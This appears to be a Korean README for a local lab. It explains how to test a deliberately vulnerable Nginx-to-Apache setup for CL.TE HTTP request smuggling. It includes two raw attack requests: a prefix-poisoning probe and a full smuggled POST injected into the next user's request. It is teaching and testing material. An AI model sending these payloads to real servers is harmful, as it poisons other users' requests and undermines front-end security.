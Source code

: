 # HTTP Request Smuggling 테스트 가이드

## 🎯 구현된 취약점

**아키텍처**: Nginx 1.21.0 → Apache 2.4.65

- **프론트엔드 (Nginx)**: Content-Length 헤더 우선 처리
- **백엔드 (Apache)**: Transfer-Encoding: chunked 우선 처리
- **취약점 유형**: CL.TE (Content-Length vs Transfer-Encoding)

## 🚀 서버 실행

```bash
cd website2
docker-compose up -d
```

**접속 정보**:
- Nginx 프록시: http://localhost:9000
- phpMyAdmin: http://localhost:8081
- MySQL: localhost:3307

## 🔬 테스트 방법

### 방법 1: CL.TE Basic Smuggling

**목적**: 백엔드에 추가 요청을 숨겨서 전송

```http
POST /api/submit_inquiry.php HTTP/1.1
Host: localhost:9000
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

**예상 동작**:
1. Nginx는 Content-Length: 6을 기준으로 "0\r\n\r\nG" 전부 전송
2. Apache는 Transfer-Encoding: chunked 기준으로 "0\r\n\r\n"까지만 처리
3. "G"가 백엔드 버퍼에 남아있음
4. 다음 요청 시 "G"가 접두사로 붙어 요청 손상

### 방법 2: CL.TE Smuggled Request

**목적**: 완전한 악성 요청을 다음 사용자의 요청에 주입

```http
POST / HTTP/1.1
Host: localhost:9000
Content-Length: 155
Transfer-Encoding: chunked

0

POST /api/submit_inquiry.php HTTP/1.1
Host: localhost:9000
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

name=hacker
```
